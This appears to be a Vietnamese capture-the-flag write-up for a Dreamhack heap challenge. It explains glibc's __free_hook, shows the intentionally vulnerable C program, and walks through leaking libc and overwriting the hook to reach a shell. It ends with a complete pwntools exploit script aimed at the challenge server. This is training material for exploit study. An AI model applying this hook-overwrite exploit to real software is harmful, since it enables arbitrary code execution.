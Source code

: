 # Hook
- Về cơ bản "hook" thường được sử dụng để chỉ các điểm trong mã nguồn mà bạn có thể mở rộng hoặc tùy chỉnh hành vi. Một hook (hoặc còn được gọi là "giắc cắm") cho phép bạn gắn kết mã của riêng bạn vào một phần của mã nguồn đã tồn tại mà không cần sửa đổi mã nguồn gốc. Khi điều kiện nào đó xảy ra, mã của bạn sẽ được gọi và thực thi.
- cách để khai thác thì bạn có thể hiểu như sau:
    - Thư viện GNU C cung cấp các biến như `__malloc_hook`,` __realloc_hook` và `__free_hook`
    dùng để sửa đổi hành vi thực thi lệnh của các hàm như `malloc`, `realloc` và `free` bằng cách là các hàm trên sẽ gọi lên các biến hook để thực thi 1 địa chỉ mà các biến hook đó trỏ tới.
    ![Alt text](image-1.png)
- Để có thể hiểu rõ hơn về nguyên lý hoạt động của hook chúng ta có thể tham khao bài sau , 1 trong các cách mà ta có thể `OW hook`.
## Thực Hành
### 1. Source
```
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}

```
### 2. Hướng giải
- Vừa nhìn vào bài thì ta có thể thấy ở đây:
    ![Alt text](image-3.png)
- Thì ở đây là 1 con trỏ nó đc trỏ vào biến `buf` mà ta `read` vào ở trên.
- Với cấu trúc của 1 con trỏ thì 8byte đầu nó nhận vào và 8byte sau nhập vào, ta có thể hiểu rằng là 8byte đầu sẽ là 1 địa chỉ và 8 byte sau sẽ là dữ liệu ta muốn đc nhập vào nó có thể là 1 `giá trị` hay 1 `địa chỉ` để sau khi `free(buf)` nó sẽ thực thi 1 địa chỉ mà 1 `hook` đang trỏ tới.
![Alt text](image-5.png)
- Bạn có thể thấy ảnh trên khi ta nhập 8byte `A` và 8byte `B` thì ngay lập tức chương trình đã gán `BBBBBBBB` vào địa chỉ `AAAAAAAA` , đồng thời chương trình cũng thực hiện `free()` tận 2 lần thế nên ta phải thực hiện ở lần `free()` đầu tiên là gán 8byte đầu = địa chỉ của `hook` và 8byte sau = địa chỉ `system` ,  để ở lần `free()` đầu tiên nó sẽ thực thi luôn hàm `system` nếu không ta sẽ bị vướn vào lỗi `double free` với cùng 1 `chunks` mà không có cách nào fix được. Đó là lý do ta không **bắt buộc** phải cho nó thực thi `system` ngay ở `free()` đầu tiên.
- Bắt tay vào làm thì chương trình đã cho ta địa chỉ của `stdout` , với địa chỉ trên ta có thể leak đc `libc_base` từ đó ta có thể tìm đc địa chỉ của `hook`.
- ![Alt text](image-6.png)
- Với source code trên ta có thể thấy đơn giản là leak `libc_base` sau đấy là gọi ra địa chỉ `hook` tương ứng với `free()` là `__free_hook` và truyền vào đấy 1 giá trị test để xem ta đã gán được chưa và khi thử thì ta đã thành công gán vào đc địa chỉ của hook rồi ( đặt breakpoint ở `free()` đầu để xem ) , tiếp theo chỉ thì ta chỉ cần để cho hàm `free()` nó thực thi địa chỉ của `system` là xong..
![Alt text](image-7.png)
- Hãy nhìn hình trên , về cơ bản sau khi `free()` thực thì nó sẽ nhảy thẳng đến địa chỉ đó và thực thi nó , đồng nghĩa với việc ở trường hợp này ta đang skip 1 đoạn của chương trình khiến nó ko thực thi 2 lần `free()` liên tiếp mà nhảy thẳng tới chỗ `system` luôn nên sẽ không bị lỗi `double free` nữa, giống như cách ta đang cố `return` tới thẳng thứ ta muốn mà không cần phải thỏa các điều kiện khác.
- Ta hoàn thiện source code như sau:
    ![Alt text](image-8.png)
    - bước tiếp theo ta nối thử sever và chạy thử source code xem có thành công không nhóe.
    ![Alt text](image-9.png)
    - Sau khi nối với sever thì ta đã thành công thu đc flag r :Đ .

### 3. Source code
```
#!/usr/bin/python3

from pwn import *

exe = ELF('hook_patched', checksec=False)
libc = ELF('libc-2.23.so', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x0000000000400a00

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('host3.dreamhack.games', 23204)
else:
        p = process(exe.path)

GDB()
p.recvuntil(b"stdout: ")
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x3c5620
info('libc_leak: ' + hex(libc_leak))
info('libc_base: ' + hex(libc.address))

sla(b"Size: ", b'512')
payload = flat(
    libc.sym['__free_hook'], 0x0000000000400a11 # ở địa chỉ này chỉ kẹp 1 địa chỉ vào rdi không ảnh hưởng gì đến chương trình 
                                                # nên ta nhảy vào đây cho chắc ăn :Đ
)
sla(b"Data: ", payload)

p.interactive()
```
